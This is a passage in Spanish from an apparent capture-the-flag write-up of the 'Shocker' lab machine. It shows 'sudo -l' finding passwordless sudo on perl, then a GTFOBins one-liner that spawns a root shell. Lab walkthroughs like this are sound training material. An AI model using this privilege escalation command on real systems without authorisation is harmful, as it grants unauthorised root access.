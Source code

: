 
```shell
sudo -l
```

![[Shocker10.png]]

Se puede ejecutar el binario de */usr/bin/perl*, con privilegio de root sin contraseña. 
Asi que vamos a la pagina de [gtfobins](https://gtfobins.github.io/gtfobins/perl/#sudo) y nos da un comando para ejecutar una bash con privilegios

![[Shocker11.png]]

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

Y como se puede apreciar, ya somos root
![[Shocker12.png]]